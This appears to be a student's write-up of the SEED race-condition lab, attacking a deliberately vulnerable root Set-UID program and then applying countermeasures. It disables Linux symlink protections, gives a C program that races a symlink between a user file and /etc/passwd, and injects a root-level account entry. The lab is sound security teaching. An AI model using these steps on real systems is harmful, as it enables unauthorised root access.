


## [Race-Condition Vulnerability Lab](https://seedsecuritylabs.org/Labs_20.04/Software/Race_Condition/)

#### 2 Environment Setup

## 2.1 Turning Off Countermeasures

```sh
sudo sysctl -w fs.protected_symlinks=0
sudo sysctl fs.protected_regular=0
```


## 2.2 A Vulnerable Program

**Set up the `Set-UID` program.**

```sh
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp
```


#### 3 Task 1: Choosing Our Target


Manually added the new user in the `/etc/passwd` file, and verified that we are able to login to the created user.


Deleted the added line after the task.

#### 4 Task 2: Launching the Race Condition Attack

## 4.1 Task 2.A: Simulating a Slow Machine

Added `sleep(10)` to the `vulp.c` file.


Recompiled the program, and made it into a root owned `Set-UID` program.


Initially, created a `seed` user owned file in the current directory, and created a link pointing to this file to the `/tmp/XYZ` file.

```sh
touch UserFile
ln -sf $(pwd)/UserFile /tmp/XYZ
ls -l /tmp/XYZ
```

Then, executed the vulnerable program.

```sh
echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp
```

After the 10 second window started, changed the link pointing to the `/etc/passwd` file.

```sh
ln -sf /etc/passwd /tmp/XYZ
```


Then, verified the contents of the `/etc/passwd` file.



## 4.2 Task 2.B: The Real Attack

Removed the `/etc/passwd` entry and `sleep` line from the `vulp.c`



**Writing the attack program.**

Created a C program and compiled to a binary called `attack`.

```c
#include <unistd.h>

int main() {
	while (1) {
		unlink("/tmp/XYZ");
		symlink("/home/seed/Downloads/Lab14/UserFile", "/tmp/XYZ");

		usleep(10000);

		unlink("/tmp/XYZ");
		symlink("/etc/passwd", "/tmp/XYZ");

		usleep(10000);
	}

	return 0;
}
```


**Running the vulnerable program and monitoring results.**

Updated the `target_process.sh` given in the ZIP file, as shown below.


Opened a new Terminal window, and updated the symbolic link pointing to the `/tmp/XYZ` file.

```sh
ln -sf $(pwd)/UserFile /tmp/XYZ
ls -l /tmp/XYZ
```


Now, in two terminal windows, ran the `target_process.sh` file and the `attack` file.


**Verifying success**

Verified by checking the contents of the `/etc/passwd` file.


## 4.3 Task 2.C: An Improved Attack Method

Verified the permissions of the `/tmp/XYZ` file, but since the owner is not `root`, hence this task is not performed.


#### 5 Task 3: Countermeasures

## 5.1 Task 3.A: Applying the Principle of Least Privilege

```sh
vim vulp.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    uid_t real_uid = getuid(); // Get the real user id
    uid_t eff_uid = geteuid(); // Get the effective user id

    setuid(real_uid);  // Disable the root privilege

    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
        fp = fopen(fn, "a+");
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    setuid(eff_uid);  // if needed, restore the root privilege

    return 0;
}
```

```sh
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp
```

**Launching the attack**


Since now the `access`, `fopen`, and `fwrite` system calls do not have permission to write to the root owned `/etc/passwd` file, the attack failed showing the `No Permission` message.

## 5.2 Task 3.B: Using `Ubuntu`’s Built-in Scheme

Enabled Ubuntu's Built-in protection mechanism.

```sh
sudo sysctl -w fs.protected_symlinks=1
sudo sysctl fs.protected_regular=1
```


Launched the attack again.


How does this protection scheme work? 

Symbolic Link Protection only allows `fopen` system call, when the owner of the Symbolic Link match either the follower or the directory owner.

What are the limitations of this scheme?

One limitation of enabling this scheme is that they block a non privileged user from hardlinking / softlinking to files that they do not own.
